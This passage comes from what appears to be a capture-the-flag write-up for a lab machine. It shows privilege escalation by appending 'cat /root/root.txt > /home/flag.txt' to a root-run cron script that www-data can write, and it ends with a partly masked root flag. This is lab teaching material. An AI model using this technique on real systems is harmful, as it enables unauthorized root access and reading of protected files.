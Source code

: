 After some enumeration , I found a wierd script called `clean.sh` in `/var/www/html/tmp/`. It contained the following lines -

```bash
www-data@dmv:/var/www/html/tmp$ cat clean.sh    
cat clean.sh
rm -rf downloads
```
## pspy

So my guess is that it is being run by cron in the background once in few mins.Lets conform that using `pspy`

![pspy](../../assets/img/posts/Convertmyvideo/pspy.png)

`clean.sh` script is indeed run by cron once in 2 mins.

## root.txt 🚩

So I added the following to the clean.sh script to retrieve the root flag !

```bash
www-data@dmv:/var/www/html/tmp$ echo "cat /root/root.txt > /home/flag.txt" >>clean.sh
```
```bash
www-data@dmv:/var/www/html/tmp$ cat clean.sh
cat clean.sh
rm -rf downloads
cat /root/root.txt > /home/flag.txt
```

After few mins, we have a file called `flag.txt` in `/home` directory which contains the flag.

```bash
QN 4- ❓
What is the root flag? - flag{d9b36*********399c5e94a}
